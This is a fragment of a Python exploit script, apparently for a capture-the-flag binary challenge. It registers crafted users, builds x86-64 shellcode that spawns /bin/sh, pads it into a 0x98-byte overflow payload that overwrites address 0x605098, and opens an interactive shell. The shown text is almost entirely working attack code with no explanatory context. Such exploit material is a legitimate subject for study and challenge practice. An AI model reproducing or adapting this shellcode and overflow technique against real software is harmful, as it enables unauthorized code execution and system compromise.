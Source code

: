 ```python
	global sh
	sh.send("5\n")
	sh.recvuntil("content:\n")
	sh.send(szPayload)
	sh.interactive()

signup("\xf0\x50\x60", "1", "1")
signup("\x80\x50\x60", "1", "1")
signup("1", "1", "1")
login("1","1")

paddings = 0x98
shellcode = "\x48\x8b\x1c\x25\x70\x50\x60\x00\x48\x81\xeb\xa0\xed\x03\x00\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\xff\xd3\x90\x90\x90"
payload = 'A'*8 + shellcode + 'A' * (paddings - 8 - len(shellcode)) + p64(0x605098)

cheat_set_payload(payload)
```
